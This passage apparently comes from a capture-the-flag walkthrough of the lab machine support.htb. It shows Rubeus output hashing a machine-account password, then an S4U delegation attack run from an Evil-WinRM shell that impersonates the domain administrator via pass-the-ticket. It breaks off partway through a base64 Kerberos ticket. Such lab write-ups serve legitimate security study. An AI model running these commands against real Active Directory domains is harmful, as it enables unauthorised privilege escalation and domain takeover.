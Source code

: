     ______        _
    (_____ \      | |
    _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v2.2.0


    [*] Action: Calculate Password Hash(es)

    [*] Input password             : Password123!
    [*] Input username             : osman
    [*] Input domain               : support.htb
    [*] Salt                       : SUPPORT.HTBosman
    [*]       rc4_hmac             : 2B576ACBE6BCFDA7294D6BD18041B8FE
    [*]       aes128_cts_hmac_sha1 : 70382F00AE681A23362CD9915267DCD0
    [*]       aes256_cts_hmac_sha1 : 205DD641B921AB4B9A41B5AD2231B36992119B9FA052F8AEB88A2385806FE65C
    [*]       des_cbc_md5          : 570BD398A2918649

##### s4u


    Rubeus.exe s4u /user:osman$ /rc4:2B576ACBE6BCFDA7294D6BD18041B8FE /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt



    *Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:osman$ /rc4:2B576ACBE6BCFDA7294D6BD18041B8FE /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt

    ______        _
    (_____ \      | |
    _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v2.2.0

    [*] Action: S4U

    [*] Using rc4_hmac hash: 2B576ACBE6BCFDA7294D6BD18041B8FE
    [*] Building AS-REQ (w/ preauth) for: 'support.htb\osman$'
    [*] Using domain controller: ::1:88
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFSDCCBUSgAwIBBaEDAgEWooIEYjCCBF5hggRaMIIEVqADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
        AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBBwwggQYoAMCARKhAwIBAqKCBAoEggQG6PrnSoOx
        sJ+loFtWQDYnMS6yW9k1bNvrop04LUM5LAnQPPjDiRjlphyIrcmuVpjRqwy3vL3P9aPIUGIRwnLRqkBq
        9Q2fuYLcqIhWwt0weLbrapO4owrRx46AUSNq8aBdA/9oWkDsB6th633W2U3KSJtkXOI8YWMnJm777trn
        LJWiww6gOWV/o0g3Ethmcw1oiaFg/SveCtQgjIG/PLSLBFcq7nlNi34iySGtmRnOk/5RydhaSL+0czAO
        SNRN/kRpJgFgNutCKeKJqWLpahM6cV3s9xV1jDDkX/WvmsiHNI/Fim/6gCXSZRoG9jpCZctricQEmVEv
        9Op2RzFb1XEWUhoZuhhyl/7I1etyrjGzrlhtfSXfMfK737Q3Ch4ZvI5tH8jWstqJAdvhRyPeBfszCzuH
        FWcWKOkrp7gbdB4x5ea4x+j8MIhpkcntOzy5n9PcN+Kvr2tdTsujd9pif3EXc34FEHYodX08D4NfxNZt
        sCCGXkv6zDpjSx6qSNxYpRra2PFU2xkiTYTZfKm3q8L9N1iUwNhtXV9t4l1ea/9YI+WIDPk7qKnHxn1z
        GXMqz6wIXilkxJPwxCnqVnThPcDf479mPmVO5Ax7CEKhhZnIzBg7f5tMJUw/mNYrGi7oUcYHWi4g4gs3
        /THHq6WiYUaP5QV1E5bYiwqoVsAxZHtfPEMZcV2ow7pb1Yoa6M9xzzsPh4UZZ78BiUyoEcj6qxlttcSy
        oEv5fR+Fe1YAbcgHqpsCPLuh3dYUvmtixq3qe/jnL7t4Imia+7pqEKgLAGYXGH09C8dlS0jBcXHfudWa
        lE9DJjpVhgbcTQDthtCmzWHzQoPnj1ys/NcLpseBoGYcJ/fatSoygjx+p3HLNI6kWi+MszrbcDkOzGZ9
        vl7qtXBFm9mQappVztwEsU/rNir8o/b2SKsiMfn39ft3W9NGMQns+Ix0mSCdCrdmQN26o1IWtcHw42M2
        5T/mevgTO7jGP8dFKfK/q2NL2pV/k2W90ZrIg0+3n144FVJdkbjcWedM7vToRej3fEaSaofuCIIAFo6W
        OeGQGavT5Whb3+D8p4IZzXQmjCWCYjyV2SCi6/ZEgLCxGyuxIbfG+c7V0GTHEjMDqTceKNC3Rjd+8+/M
        KHmtc3JQfaBc8L/Y73wsRMhp/rNbQc3dQRS4NePgztllWJZQoHGIwiQKhVeWyk20+N9V8WEAZRlVzvAW